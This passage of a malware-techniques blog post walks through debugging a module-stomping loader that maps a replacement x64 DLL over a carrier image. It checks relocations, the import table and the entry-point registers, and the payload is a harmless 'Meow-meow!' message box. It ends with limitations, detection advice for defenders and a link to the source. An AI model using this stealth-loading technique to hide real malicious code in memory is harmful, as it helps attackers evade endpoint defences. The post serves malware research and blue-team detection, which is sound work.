{:class="img-responsive"}     

Let's examine the relocation and import.    

First, consider the `text` pointer, for which our `objdump` showed a relocation at RVA `0x2000`:    

```bash
dump lbase+2000
```

{:class="img-responsive"}     

The first eight bytes represent the value of the pointer. Let's follow it directly:     

```bash
dump qword:[lbase+2000]
```

{:class="img-responsive"}     

As we can see, a string has appeared in the ASCII column:

```bash
Meow-meow! 
```

If the relocation delta is non-zero, it indicates that the pointer, following relocation, points to a string within the new mapping.       

Now for the IAT. In my dump, its first slot is located at RVA `0x4038`:     

{:class="img-responsive"}     

```bash
dump lbase+4038
```

{:class="img-responsive"}     

It should contain the address of a resolved function. Let's examine it:    

```bash
disasm qword:[lbase+4038]
```

The address should resolve to `USER32.MessageBoxA` or the corresponding implementation of that function.      

{:class="img-responsive"}     

Let's stop at the payload entry.   
Let's set two breakpoints:   

```bash
bp lbase+1000
bp user32:MessageBoxA
```

{:class="img-responsive"}     

{:class="img-responsive"}     

Press F9, then Enter in the our program's console.    

{:class="img-responsive"}     

{:class="img-responsive"}     

As you can see, if we check the registers:      

```bash
RCX - lbase, argument HINSTANCE    
RDX - 1, i.e., DLL_PROCESS_ATTACH      
R8 - 0, argument reserved    
```

> By the way, the addresses in these last two screenshots are different; I had to restart the debugger to make the picture clearer. In the other screenshots, the addresses are the original ones.    

Press F9 again. The next stop is at `MessageBoxA`.     

What to expect here:      

{:class="img-responsive"}     

{:class="img-responsive"}     

{:class="img-responsive"}     

As we can see:       

```bash
RCX = 0
RDX = address of "Meow-meow!"
R8  = address of "=^..^="
R9  = 0
```

Finally, press F9 - our `meow-meow` popup window will appear    


{:class="img-responsive"}      

Perfect! As you can see, everything works as expected! =^..^=!     

### a few limitations

This is a small PE-loading experiment for the supplied x64 DLL. It supports ordinary imports and `DIR64` relocations, with up to `32` imported modules and a `16 MiB` payload limit. It does not implement CRT initialization, TLS callbacks, delay loading, exception registration, loader-list registration or DLL thread notifications. An arbitrary EXE cannot be substituted for this DLL: its entry point and runtime expectations are different.    

The carrier must exist and be large enough. Windows process mitigations can also prevent the required mapping or protection changes. An API failure should be investigated at the printed step; removing an unsupported-directory check does not implement the missing loader feature.    

For this payload, a successful nonzero relocation delta and the displayed message together exercise the relocated data pointer and the resolved MessageBox import. If the mapping happens to land at the preferred base, the relocation loop is correctly skipped.    

### for blue teams

Follow the address that executes, its mapping, its backing file and its current bytes. A useful observation here is the disagreement between the carrier identified by the mapped-file query and the replacement PE inside that view. The `MEM_IMAGE` label does not establish that the bytes still match the backing file, and a signature on that file does not authenticate the modified memory.    

The relevant sequence includes an image mapping, writable protection changes, replacement of image contents, import loading and execution from the changed region. Baseline differences such as normal relocations and IAT updates must be distinguished from an entire replacement PE.    

### conclusion

We extended the earlier stomping experiment to a complete PE payload. The carrier supplies the image mapping; our code prepares the replacement DLL's layout, relocations, imports and page protections before calling its entry point. The familiar message box is the visible end of those loading steps.    

I hope this post is useful for malware researchers, C programmers, and blue teamers who investigate executable memory and PE loading.    

[Microsoft: PE format](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format)    
[Microsoft: CreateFileMappingW](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-createfilemappingw)    
[Microsoft: MapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile)    
[Microsoft: VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)    
[Microsoft: VirtualQuery](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualquery)    
[Microsoft: GetMappedFileNameW](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-getmappedfilenamew)    
[Microsoft: FlushInstructionCache](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-flushinstructioncache)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2026-11-02-malware-tricks-68)    

> This is a practical case for educational purposes only.

Thanks for your time happy hacking and good bye!    
*PS. All drawings and screenshots are mine*
